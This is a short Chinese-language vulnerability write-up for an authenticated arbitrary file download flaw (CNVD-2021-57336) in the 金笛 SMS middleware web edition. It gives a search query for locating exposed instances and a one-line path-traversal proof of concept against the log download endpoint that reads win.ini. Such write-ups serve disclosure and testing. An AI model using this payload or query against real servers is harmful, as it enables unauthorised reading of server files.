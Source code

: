 # 

# 金笛 短信中间件Web版 log 后台任意文件下载漏洞 CNVD-2021-57336

## 漏洞描述

金笛 短信中间件Web版后台存在任意文件下载漏洞，攻击者通过漏洞可以获取服务器任意文件信息

## 漏洞影响

```
金笛 短信中间件Web版
```

## 网络测绘

```
app="金笛短信中间件(WEB版)"
```

## 漏洞复现

登录页面

![image-20220525150803211](./images/202205251508287.png)

存在漏洞的位置为 日志下载

![](./images/202205251508351.png)

验证POC

```
/log?action=view&pageIndex=1&name=../../../windows/win.ini
```

![](./images/202205251508651.png)
